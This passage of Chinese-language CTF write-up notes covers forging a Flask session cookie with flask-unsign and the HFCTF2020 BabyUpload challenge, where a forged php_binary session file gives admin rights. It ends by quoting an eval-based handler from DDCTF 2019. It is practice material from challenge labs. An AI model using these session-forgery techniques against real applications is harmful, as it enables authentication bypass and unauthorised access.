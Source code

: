```
flask-unsign --sign --cookie "{'username':b'fuck'}" --secret  221.567620285 --no-literal-eval 
```

有空的时候加一下环境变量e/kali/.local/bin

## 0x03 [HFCTF2020]BabyUpload

```
session_save_path("/var/babyctf/");
session_start();
require_once "/flag";
highlight_file(__FILE__);
if($_SESSION['username'] ==='admin')
{
    $filename='/var/babyctf/success.txt';
    if(file_exists($filename)){
            safe_delete($filename);
            die($flag);
    }
}
```

这几句代码 我们可以看出这里获取flag的权限就是 admin +success.txt

但是我们发现我们不能控制文件名

```
file_exists() 函数检查文件或目录是否存在。
```

注意不仅是文件 目录也可以。我们创建目录即可。

然后就是伪造session文件

```
 sess_sessionid
```

```
<?php
session_save_path("./");
ini_set('session.serialize_handler', 'php_binary');
session_start();
$_SESSION['username'] = "admin";
```

![image-20211222212058934](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20211222212058934.png)

![image-20211222212105868](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20211222212105868.png)

两步构建

## 0x04 [DDCTF 2019]homebrew event loop

```
event_handler = eval(action + ('_handler' if is_action else '_function'))
```
